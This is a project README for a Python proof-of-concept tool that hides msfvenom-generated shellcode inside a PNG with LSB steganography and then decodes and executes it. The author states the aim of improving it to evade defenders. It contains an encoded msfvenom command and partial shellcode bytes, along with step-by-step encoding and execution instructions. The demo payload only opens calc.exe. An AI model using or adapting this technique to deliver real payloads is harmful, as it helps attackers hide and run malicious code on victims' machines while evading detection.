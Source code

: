 # PyStegMalz
Python 2.7 script that uses LSB steganography to host your shellcode payloads from within a image, and a corresponding script to decode & execute the shellcode. This was a POC created as an pure experiement with defence-evasion not being the focus. However, this project will be updated continously to improve OPSEC & hopefully be a technqiue to evade the blue-team!

There are two scripts: 
`encoder.py` & `shellcode_runner.py`
For a very detailed explanation of this POC pleases check out my corresponding blog post:

https://polygonben.github.io/defence%20evasion/Creating-Stego-payloads/

## Instructions for use
### Generating shellcode.
For this POC I'll generate a simple calc.exe pop-up. Let's generate the corresponding shellcode in msfvenom:

`msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/shikata_ga_nai -i 5 -f py`

The shellcode generated will look something like this (this precise shellcode can be found in this repo as `shellcode.txt`):

```
buf += b"\xbd\xa9\x52\xa3\x17\xd9\xce\xd9\x74\x24\xf4\x5a"
buf += b"\x31\xc9\xb1\x4c\x31\x6a\x13\x83\xc2\x04\x03\x6a"
buf += b"\xa6\xb0\x56\xad\x86\x76\x86\xf8\x2c\xab\x61\x88"
....
buf += b"\x86\x89\x46\x40\x19\x43\x18\xb6\x93\x1a\xd9\xc6"
buf += b"\x6b\xbc\xfb\xd9\xc2\x64\x05\xee\x36\x3a\x50\x88"
buf += b"\x26\x0d\x0c\xed\x7f\x35\x1b\xf5\xf3\xfe\xca\xec"
buf += b"\xe0\x90\x46\xf3"
```
Copy the contents of the shellcode, like above, into a text file and save it!
### Picking an image

For this part you can be creative, choose a fairly large image to ensure there is enough space to encode your shellcode. Save this to the same directory you put your shellcode text file in. 

If you are just playing around with this, `example.png` from this repo works well!

### Encoding

`encoder.py -s shellcode.txt -i example.png`

Expected output should be: 'Payload encoded and image saved to: poc_example.png'

However, if you recieve: 'Data too large for the image.' -> Choose a larger image!

You can view this payload encoded image and you'll barely notice a change between the two.

### POC demo

https://polygonben.github.io/defence%20evasion/Creating-Stego-payloads/#poc-live-demo

## Execution

Execution should be simple, just edit the `encoded_image_path` variable in the `shellcode_runner.py` script to be the filename (or path), in my case `poc_example.png` and execute the script! You should see a calc.exe pop-up :)
